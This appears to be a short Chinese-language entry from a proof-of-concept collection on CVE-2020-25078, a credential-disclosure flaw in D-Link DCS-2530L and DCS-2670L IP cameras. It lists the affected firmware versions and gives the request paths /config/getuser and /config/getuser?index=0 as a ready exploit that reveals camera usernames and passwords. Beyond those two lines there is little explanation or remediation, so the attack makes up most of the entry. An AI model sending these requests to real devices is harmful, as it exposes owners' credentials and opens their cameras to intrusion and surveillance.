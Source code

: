 ## CVE-2020-25078 D-Link DCS系列监控 账号密码信息泄露

影响版本：
- D-Link DCS-2530L	All Ax Hardware Revisions	v1.05.05 & older
- D-Link DCS-2670L	All Ax Hardware Revisions	v2.02 & older

访问系统：Basic认证
POC：
```
/config/getuser
/config/getuser?index=0
```

[@PeiQi](https://mp.weixin.qq.com/s/b7jyA5sylkDNauQbwZKvBg)